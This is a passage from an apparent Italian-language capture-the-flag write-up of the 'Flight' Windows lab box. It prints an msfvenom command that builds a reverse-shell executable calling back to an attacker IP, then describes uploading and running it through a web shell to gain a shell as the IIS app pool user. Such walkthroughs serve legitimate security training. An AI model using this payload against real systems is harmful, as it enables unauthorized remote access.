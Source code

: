Provo a digitare un comando:

<p align="center">
  <img src="/Immagini/Windows-Box/Flight/flight-23.png"/>
</p>

Ora, tramite il tool _mfsvenom_ genero un payload per ottenere una reverse-shell:

```bash
msfvenom -p windows/shell_reverse_tcp -f exe LHOST=10.10.14.8 LPORT=6666 > reverse-shell-x64.exe
```

Lo carico nella cartella "C:\inetpub\development", avvio un listener sulla porta 6666 e lo eseguo tramite la web-shell.

Quindi, dopo 8 ore e 6 schermate aperte, ottengo una shell per l'utente _iis apppool_:

<p align="center">
  <img src="/Immagini/Windows-Box/Flight/flight-24.png"/>